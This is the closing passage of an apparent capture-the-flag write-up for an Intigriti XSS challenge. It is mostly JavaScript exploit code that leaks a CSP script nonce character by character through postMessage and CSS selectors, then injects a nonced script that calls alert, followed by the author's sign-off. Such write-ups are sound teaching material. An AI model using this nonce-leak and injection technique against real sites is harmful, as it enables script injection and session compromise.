 ```

  genblob = content => {
    b = new Blob([`<script>${content}<\/script>`],{type: 'text/html'})
    return URL.createObjectURL(b)
  }

  stage1 = nonce => {
    frames[0][0].location = genblob(`
      sleep = ms => new Promise(r => setTimeout(r, ms))
      checkNonce=null

      listener = e =>{
        top.postMessage(checkNonce+'', '*')
        removeEventListener('beforeunload', listener)
      }
      addEventListener('beforeunload', listener)

      iteratenonce = async (partialNonce) => {
        console.log('iterating nonce starting with','${nonce}')
        chars = ['a','b','c','d','e','f','0','1','2','3','4','5','6','7','8','9']
        for(ix=0; ix<chars.length;ix++){
          checkNonce = partialNonce+chars[ix]
          action = {
            element: 'script[nonce^="'+checkNonce+'"]~div>div>iframe',
            action: 'set',
            attr: 'src',
            value: 'https://challenge-0922.intigriti.io'
          }
          parent.postMessage(action, '*')
          console.log('checking', checkNonce)
          await sleep('${sleepTime}')
        }
      }
      iteratenonce('${nonce}')
    `)
  }

  stage2 = nonce => {
    console.log('send script to pop with nonce', nonce)
    frames[0][0].location = genblob(`
      parent.postMessage({
        element: '#ball',
        action: 'set',
        attr: 'srcdoc',
        value: '<script nonce="${nonce}">parent.alert(document.domain)<\\/script>'
      }, '*')
    `)
  }
</script>
```

This was a long journey! You can shoot me a message [@h43z](https://twitter.com/h43z) or open a PR if 
you have any questions.
